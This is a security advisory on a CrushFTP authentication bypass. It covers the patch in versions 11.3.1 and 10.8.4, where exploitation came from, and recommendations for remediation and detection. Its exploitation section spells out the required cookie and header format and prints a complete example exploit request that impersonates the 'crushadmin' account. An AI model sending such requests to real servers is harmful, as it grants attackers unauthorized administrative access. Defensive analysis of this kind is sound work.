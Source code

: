 
To exploit this vulnerability, an attacker can craft an HTTP request to the CrushFTP server with the following characteristics:
- A GET request to `/WebInterface/function/?command=getUsername&c2f=<last_four_chars_of_CrushAuth_cookie>`. The specific function called is not critical for the initial bypass.
- A "Host" header pointing to the target CrushFTP server.
- A "Cookie" header containing a `CrushAuth` cookie and a `currentAuth` cookie. The `currentAuth` cookie's value must match the last four characters of the `CrushAuth` cookie. The `CrushAuth` cookie needs to be 44 characters long with a specific format: 13 numerical characters, an underscore, and a 30-character string. This cookie can be arbitrarily set as long as it adheres to the format and the `c2f` parameter matches the last four characters.
- An "Authorization" header starting with "AWS4-HMAC-SHA256 Credential=<username>/" where `<username>` is a valid or even the default administrator username like "crushadmin", and importantly, does not contain a tilde (~).

An example exploit request:
```
GET /WebInterface/function/?command=getUsername&c2f=3HLa HTTP/1.1
Host: 192.168.181.129:8080
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Cookie: showRightRail=false; DoNotShowFTU=true; lastMangerHost=http%3A//localhost%3A8087; currentAuth=3HLa; CrushAuth=1742972465863_IdzGfLNkZvdjv2ew1O9txCFnwe3HLa;
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: keep-alive
```
A successful first request might return a blank response. Subsequent requests with the same cookie can then execute commands as the authenticated user. For example, requesting `/WebInterface/function/?command=getUsername&c2f=3HLa` after the bypass will return an XML response indicating the authenticated user, such as "crushadmin".

The patch in versions 11.3.1 and 10.8.4 addresses this by:
- Reorganizing the authentication logic.
- Calling `login_user_pass()` later in the process with `false` instead of `lookup_user_pass` as the `anyPass` parameter.
- Implementing a new configuration value `s3_auth_lookup_password_supported`, set to `false` by default, to disable S3 authentication for instances not using AWS integration.
- Adding a security check to block the vulnerable path when `lookup_user_pass` would be true.

### Countries
According to Shadowserver's report, the majority of exploitation attempts originated from IP addresses in Asia, with a smaller number coming from Europe and North America.

### Industries
The sources do not explicitly mention specific targeted industries. However, given that CrushFTP is a "widely used multi-protocol file transfer server" facilitating secure data exchange for many organizations, a broad range of industries that rely on secure file transfer are potentially at risk.

### Recommendations
- **Immediately upgrade** CrushFTP server instances to version **11.3.1 or later** for v11, or **10.8.4 or later** for v10. This is the primary remediation to address the vulnerability.
- If immediate patching is not possible, consider implementing **network-level access controls** to restrict connections to the CrushFTP server.
- Review user account activity for any unauthorized access from unrecognized IP addresses. This can be challenging if verbose logging is not enabled.
- Consider enabling verbose logging ("2") to capture the Authorization header in the logs, which can help in detecting exploitation attempts. Look for "Authorization" headers containing "AWS4-HMAC-SHA256" that do not contain legitimate AWS resource identifiers. However, note that sophisticated attackers might craft seemingly legitimate but invalid headers.
- For organizations not using CrushFTP's AWS integration features, ensure the new `s3_auth_lookup_password_supported` configuration value is set to "false" in the updated versions.